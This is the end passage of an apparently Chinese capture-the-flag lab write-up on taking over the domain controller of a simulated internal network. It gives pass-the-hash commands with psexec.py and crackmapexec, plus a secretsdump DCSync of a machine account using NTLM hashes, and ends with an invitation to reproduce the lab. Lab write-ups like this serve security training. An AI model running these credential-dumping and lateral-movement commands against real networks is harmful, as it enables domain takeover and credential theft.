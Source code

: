 ```bash
1103    XIAORANG-WIN7$  507797b66f76b8b71d20555b0c59f86d        4096
```

[![](assets/1709193375-d586f68d4c7123827063b2df5f321652.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205407-4b19dcca-d56f-1.png)

最后`hash传递`获取域控

```bash
proxychains psexec.py -dc-ip 172.22.1.2 -hashes :10cf89a850fb1cdbe6bb432b859164c8 XIAORANG.LAB/administrator@172.22.1.2
# 拓展 对 XIAORANG-WIN7$的凭证进行 dcsync
proxychains secretsdump.py XIAORANG-WIN7\$@172.22.1.2 -just-dc-user administrator -hashes :d4df8a3fa73a9fee14a62123784290c6
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```

[![](assets/1709193375-4d5eece374d0d82c1041b263deab00be.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205411-4d95eb10-d56f-1.png)

最终拼接获取完整 flag，提交拿下靶标。

总：前前后后笔者也是陆续弄了几天，记录了模拟实战内网靶标的总结笔记，对内网知识有兴趣的伙伴可自行去复现一波。安全无止境，永远在路上。结，如若有误请联系笔者，大佬勿喷。
